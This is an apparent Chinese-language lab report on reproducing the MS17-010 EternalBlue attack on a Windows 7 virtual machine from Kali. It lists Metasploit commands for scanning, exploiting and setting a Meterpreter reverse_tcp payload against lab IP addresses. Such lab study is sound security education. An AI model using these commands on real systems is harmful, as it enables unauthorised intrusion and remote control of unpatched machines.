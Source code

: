 ### 2.5.1 准备工作

准备两台虚拟机，一台kali-linux 一台 win7，使用Wireshark
进行抓包，利用msfconsole工具进行模拟攻击

### 2.5.2 攻击过程

1.获取两台主机的IP地址

2.测试两台主机的连通性

3.使得 kali 的数据保持开启

测试是否开启： service postgresql status

打开数据库 ： service postgresql start

初始化数据库： msfdb init

4.利用 msfconsole 进行漏洞扫描

启动： msfconsole

查看数据库连接情况：db_status

搜索漏洞： search ms17_010

扫描命令：use auxiliary/scanner/smb/smb_ms17_010

攻击命令（后面使用）：use exploit/windows/smb/ms17_010_eternalblue

设置扫描的主机或者主机段：set rhosts 192.168.223.141/24;

设置扫描线程为20： set threads 20；

最后输入run执行扫描。

同时，利用 wireshark抓包工具，监听ethO

进行攻击：use exploit/windows/smb/ms17_010_eternalblue

设置攻击目标（靶机）：set rhost 192.168.223.141

设置攻击载荷：set payload windows/x64/meterpreter/reverse_tcp

设置监听主机（kali）：set lhost 192.168.223.137

利用exploit进行攻击：exploit

成功攻击！！

{% asset_img image1.png 1 %}

图1 打开并初始化数据库

{% asset_img image2.png 2 %}

图2 打开msfconsole 并查找ms17_010

# 4 病毒分析

## 4.1 基础静态分析
